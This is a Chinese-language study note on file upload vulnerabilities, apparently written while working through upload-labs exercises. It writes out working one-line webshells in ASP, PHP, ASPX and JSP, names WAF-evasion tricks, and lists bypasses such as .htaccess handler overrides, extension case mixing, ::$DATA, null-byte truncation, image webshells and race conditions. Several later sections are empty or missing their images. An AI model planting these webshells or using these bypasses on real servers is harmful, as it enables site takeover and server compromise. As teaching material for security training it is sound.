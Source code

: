 ### 文件上传漏洞

#### 	一、上传漏洞介绍

​		在web应用程序中，上传文件是一种常见的功能，因为它有助于提高业务效率，比如企业的OA系统，允许用户上传图片、视频、头像和许多其他类型的文件。然而向用户提供的功能越多，web应用受到攻击的风险就越大，如果web应用存在文件上传漏洞，那么恶意用户就可以利用文件上传漏洞将可执行脚本程序(webshell)上传到服务器中，获取网站的权限，或者进一步危害服务器。

​		产生原因：服务器代码未对客户端上传的文件进行严格的验证和过滤，就容易造成可以上传任意文件的情况，包括上传脚本文件(asp、aspx、php、jsp等格式的文件)。

​		危害：非法用户可以利用上传的恶意脚本文件控制整个网站，甚至控制服务器。这个恶意的脚本文件，又称之为webshell，也可将webshell脚本称为一种***\*网页后门\****，webshell脚本具有强大的功能，比如查看***\*服务器目录，服务器中的文件，执行系统命令\****等。

#### 	二、webshell

​		webshell，顾名思义：web指的是在web服务器上，而shell是用脚本语言编写的脚本程序，webshell就是web的一个管理工具，可以对web服务器进行操作的权限，也叫webadmin。

​		通常被黑客利用，黑客通过一些上传方式，将自己编写的webshell上传到web服务器的页面的目录下，然后通过页面访问的形式进行入侵，或者通过插入一句话连接本地的一些相关工具直接对服务器进行入侵操作。

​		webshell根据脚本可以分为PHP脚本木马，ASP脚本木马，.NET脚本木马、JSP脚本木马python脚本木马等。

​		webshell分类：

​			小马：一句话木马也称为小马，即整个shell代码量只有一行，一般是系统执行函数 

​			大马：代码量和功能比小马多，一般会二次编码加密，防止被防火墙/入侵系统检测到

​		webshell编写方法：

​			asp一句话木马：<%execute(request("value"))%> 

​			php一句话木马：<?php @eval($_POST[‘aaa’]);?>

​			aspx一句话木马：<%@ Page Language="Jscript"%><%eval(Request.Item["value"])%>

​			jsp的简单的webshell：<%Runtime.getRuntime().exec(request.getParameter("i"));%>

​			不用'<,>'的asp一句话木马：

<script language=VBScript runat=server>execute request("value")</script>

 			不用双引号的一句话木马：<%eval request(chr(35))%>

​			如果被防火墙或WAF等拦截或查杀，可以使用以下方法绕过：

​				UTF-7编码加密、混淆一句话木马

​		webshell客户端：

​				l 中国菜刀

​				l lanker一句话客户端

​				l weevley--kali下集成的客户端

​				l 蚁剑 ---不支持jsp

​				l 冰蝎--基于java编写，运行需要jre环境支持

​				l 哥斯拉--基于java编写，运行需要jre环境支持

#### 	三、webshell上传攻击

​		典型的webshell攻击顺序：利用web的漏洞，获取web权限，上传小马，安装大马，然后远程调用Webshell，执行各种命令，以达到获取数据等恶意目的。

#### 	四、文件上传实例

##### 		1、绕过客户端（js检测）

​			法一、在浏览器中利用插件，删除页面的js过滤代码；

​			法二、先修改文件后缀，绕过js检测，通过burp 抓包修改为原来文件后缀；(pass-1)

##### 		2、绕过服务端检测（content-type）

​			使用burp抓包，修改伪造content-type,绕过content-type过滤.(pass-2)

##### 		3、黑名单绕过过滤

​			使用一些可解析的的文件名后缀替换，如用phtml、phps、php5、pht替换，绕过对php的过滤。(pass-3)

​			上传.htacess文件，修改服务器的配置，让服务器可以将其他类型的文件解析成脚本文件。如：SetHandler application/x-httpd-php  将所有文件都解析成PHP文件。（pass-4）

​			服务器没将后缀转换成小写检查，通过大小写混写绕过，如php或PHP，替换成pHP,PhP,PHp等。（pass-5）

​			服务器没对首尾去空格处理，可通过空格绕过，通过burp抓包，在文件后缀后加上空格，从而绕过黑名单过滤（pass-6）

​			服务器没有删除文件名末尾的点，可通过点绕过，通过burp抓包，在文件后缀后加点，绕过黑名单过滤。（pass-7）

​			服务器没有对::$DATA进行过滤，利用::$DATA,实现当前文件不进行黑、白名单检测，通过burp抓包，然后在文件后加::$DATA，实现绕过。（pass-8）

​			服务器只过滤的一边的点和空格，只进行了一次过滤，使用burp抓包，修改文件名为xx.php.  .,这样过滤后该文件名为xx.php.可以进行绕过。（pass-9）

​       	 服务器对在黑名单中的后缀进行一次替换为空，可通过双写绕过过滤。（pass-10）

##### 	4、白名单绕过过滤		

​			白名单%00截断，通过截断后面的能够绕过的后缀，导致之后的部分丢失，从而绕过检测。（pass-11）

​			白名单0x00截断，当参数通过GET方式获取是，%00会自动解码，而当参数通过POST获取时，%00不会自动解码，需要手动地将%00改成0x00,然后通过0x00截断绕过。（pass-12）

##### 5.文件头检测绕过——图片马

当浏览器上传到服务器时，白名单对文件进行头检测，符合，则允许上传，反之不允许。

所有的文件都是以二进制的形式进行存储的，本质上没差别。但使用的方式不同，是因为我们理解他的方式不同。在每一个文件（包括图片，视频或其他的非ASCII文件）的开头（十六进制表示）都有一片区域来显示这个文件的实际用法，这就是文件头标志

Linux下可以用file命令直接查看文件的实际格式，也是利用文件头标志来进行文件类型判断的。
![image-20240318112912349](C:\Users\wlen\AppData\Roaming\Typora\typora-user-images\image-20240318112912349.png)

之后利用文件包含漏洞，对上传的图片马进行解析。

##### 6.二次渲染绕过



什么是二次渲染？
是指网站对用户上传的图片再次压缩、裁剪等渲染操作（如PHP中的imagecreatefromjpeg()等函数）。所以普通的图片马都难逃被渲染的悲剧。
绕过方法：
GIF：渲染前后的两张 GIF，没有发生变化的数据块部分直接插入 Webshell 即可。
PNG：PNG 没有GIF那么简单，需要将数据写入到 PLTE 数据块或者IDAT数据块。
JPG：JPG需要用脚本将数据插入到特定的数据块，而且可能会不成功，需要多次尝试。

![image-20240318112641705](C:\Users\wlen\AppData\Roaming\Typora\typora-user-images\image-20240318112641705.png)

JPG文件的文件格式：


gif文件二次渲染：

先上传一张正常的图片，通过右键下载，再上传一张含有图片马的图片，之后右键下载。通过010editor打开之后，



jpg文件二次渲染：

![image-20240318101008934](C:\Users\wlen\AppData\Roaming\Typora\typora-user-images\image-20240318101008934.png)

进入对应版本的php配置文件，命令窗运行php文件。

可以通过了解jpg的文件格式，将payload添加到数据块中。

##### 7.条件竞争（时间竞争）

多线程的情况下，服务器会将上传的文件存放在临时目录中，通过burp抓包之后，用测试器不断上传测试包。

##### 8.条件竞争（重命名竞争）



##### 9.黑名单00截断

连接大马，使用页面文字编码修复乱码。

![image-20240318112305258](C:\Users\wlen\AppData\Roaming\Typora\typora-user-images\image-20240318112305258.png)

##### 10.审计+数组绕过

